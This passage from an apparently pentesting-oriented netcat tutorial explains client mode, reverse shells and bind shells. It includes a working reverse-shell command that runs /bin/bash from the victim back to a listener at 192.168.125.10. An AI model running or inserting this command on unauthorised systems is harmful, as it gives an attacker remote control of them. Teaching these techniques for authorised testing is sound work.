 As you noticed, the command line options can be used grouped together or separated.

**Client mode**

In client mode you can use netcat to connect to an open port on a system. This can be beneficial for manually checking service
banners or just checking if the port is open.

For a tcp connection when connecting to IP 127.0.0.1 on port 8080, the syntax is as below.

```sh
nc -vn 127.0.0.1 8080
```

For a udp connection we only add the -u option.

```sh
nc -uvn 127.0.0.1 8080
```

### Reverse / Bind Shells

Familiarity with the concept of reverse shells and bind shells is needed as it is not discussed in detail in this section as we are 
only looking at how netcat facilitates them. 

This is very popular to pentesters and use of netcat makes it easy. I will use the server / client model for explanation.

The commands used only work on ncat,netcat traditional and gnu netcat. Netcat OpenBSD is compiled to not have this feature as it is
considered a security risk.

**Reverse shells**

For a reverse shell, we use netcat in server mode to listen for connections then supply the shell from the client. This will allow
the session on the server to run commands on the client once the shell is received. From a pentesting perspective the server would be 
the attacker machine and the client the victim machine.

Server (attacker machine)

```sh
nc -lvnp 8080
```
Client (victim machine)

```sh
nc -e /bin/bash 192.168.125.10 8080
```

Something to note is that, just because the openbsd version does not have this -e option, does not mean that it is impossible to get a reverse
shell when it's installed. There are still ways it can be used to achieve a reverse shell.

**Bind shells**

For a bind shell, netcat in server mode listens for a connection and serves the shell process to any connecting client. Netcat running in
client mode can then connect to the server and get shell access to the server and run commands. From a pentesting perspective the server
would be the victim machine and the client the attacker machine.
